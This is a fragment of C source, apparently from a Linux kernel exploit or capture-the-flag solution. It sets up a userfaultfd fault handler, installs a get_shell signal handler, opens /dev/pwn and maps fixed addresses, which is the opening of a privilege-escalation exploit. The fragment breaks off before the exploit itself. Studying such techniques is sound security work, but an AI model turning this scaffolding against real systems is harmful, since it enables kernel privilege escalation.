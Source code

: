 ```c=
{
   long uffd;          /* userfaultfd file descriptor */
   char *addr;         /* Start of region handled by userfaultfd */
   unsigned long len;  /* Length of region handled by userfaultfd */
   pthread_t thr;      /* ID of thread that handles page faults */
   struct uffdio_api uffdio_api;
   struct uffdio_register uffdio_register;
   int s;

   page_size = sysconf(_SC_PAGE_SIZE);
   len =  page_size;

   /* Create and enable userfaultfd object */

   uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
   if (uffd == -1)
	   errExit("userfaultfd");

   uffdio_api.api = UFFD_API;
   uffdio_api.features = 0;
   if (ioctl(uffd, UFFDIO_API, &uffdio_api) == -1)
	   errExit("ioctl-UFFDIO_API");

   /* Create a private anonymous mapping. The memory will be
	  demand-zero paged--that is, not yet allocated. When we
	  actually touch the memory, it will be allocated via
	  the userfaultfd. */

   addr = mmap(NULL, len, PROT_READ | PROT_WRITE,
			   MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
   if (addr == MAP_FAILED)
	   errExit("mmap");



   /* Register the memory range of the mapping we just created for
	  handling by the userfaultfd object. In mode, we request to track
	  missing pages (i.e., pages that have not yet been faulted in). */

   uffdio_register.range.start = (unsigned long) addr;
   uffdio_register.range.len = len;
   uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
   if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1)
	   errExit("ioctl-UFFDIO_REGISTER");

   /* Create a thread that will process the userfaultfd events */

   s = pthread_create(&thr, NULL, fault_handler_thread, (void *) uffd);
   if (s != 0) {
	   errno = s;
	   errExit("pthread_create");
   }
   save_status();
   get_NULL();
   signal(SIGSEGV,get_shell);
   int fd = open("/dev/pwn",O_RDONLY);
   uint64_t buf[0x22];
   char *addr2 = (void*)mmap((void*)0x1234000,0x1000,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED,-1,0);
   fault = (void*)mmap((void*)0x2468000,0x1000,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED,-1,0);
   size_t kcode = 0;

```